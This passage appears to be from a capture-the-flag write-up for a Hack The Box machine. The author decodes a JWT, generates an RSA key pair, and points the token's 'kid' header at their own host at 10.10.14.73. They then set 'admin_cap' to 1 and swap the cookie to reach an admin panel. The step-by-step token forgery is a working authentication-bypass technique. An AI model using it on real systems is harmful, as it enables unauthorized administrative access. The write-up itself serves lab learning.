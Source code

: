 I decoded this JWT token using Burpsuite's JWT Decoder which resulted in the following:

```json
Headers = {
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key"
}

Payload = {
  "username": "hotshoto",
  "email": "hotshoto@htb.com",
  "admin_cap": 0
}

Signature = "BF8Rj0ju9AeecSavFOLM8K2OGGHE7YDVPhiHkJDrwMer4xmCSQhm8TYJoF_E236QjXtM7asv2lXQwSajTREYb-br5TwHwdzS_ABqWYN9R5JSbUU_mGxbjnlsSoGFei1Id7GkGB0WeKJu9KYE7rrhLajxJP3TjSmQAhmRGGQvwcdZ1KO4YCL7QbEFQtZ7y3WkBipR9WZA0iQgT3Fm5H09B4biGbbjrrg_ptZ6q3UqGys6PlOhFFpPbhU1cK5FvzBDjYytqC9__Hsi6BYPTrJWuJ4atKJeK3IIIH1yKndzIT5KIozBgm9P_zS-LQ5s_L0HnMv7l6KnLkPAa_AzI5cGy3SVw0Fgr8T9RLc7oPK6nEFxR2O7fwy7k5JjHxccUONhhT0hfBbuwDnSJQnSJ0ZZFR3fxEsbd11-i93J2kDBuuiNwnqeMBeFlxnSrTGu1J8Zf0ydy_-R52EzVJ-ACwQqAAByIzQsyjbgIaewZz_sdnlZ4nM140BLO84ZcL2ARrA-R5V5_04mWVkbBw-npuw7HsAUBSeRwsdIPrleep6GbVbrjx0J5k9KvSpeoIqI0A0AL2HgxrAe6LCq7y8vxqSUgZZiNba2e35_hVYNsAoUGG0DxDJA9aiJU6lGwPLRmij2Ku7JCYqfJ2SkL1tLAt6zAaz4cd6ZUPupZzZIL1yjNuk"
```

As shown above, the JWT token made use of a `kid` header which is an optional header claim which holds a key identifier and it contains the path of the secret key to be used for signing the token.  Additionally, it contained an `admin_cap` parameter within the Payload section. I did a quick Google search for exploiting `kid` within JWT's and came across the following blog post: <https://blog.pentesteracademy.com/hacking-jwt-tokens-kid-claim-misuse-command-injection-e7f5b9def146>.


I needed to start off by generating an SSH key pair using the following commands:
```bash
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub
```

In order to exploit this, I changed the `kid` value to point to my host and I changed the `admin_cap` to 1:
```json
Headers = {
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.73:7070/privKey.key"
}

Payload = {
  "username": "hotshoto",
  "email": "hotshoto@htb.com",
  "admin_cap": 1
}

```
With these changes in effect, I changed the cookie value in the browser storage, refreshed, and I had access to the admin panel:
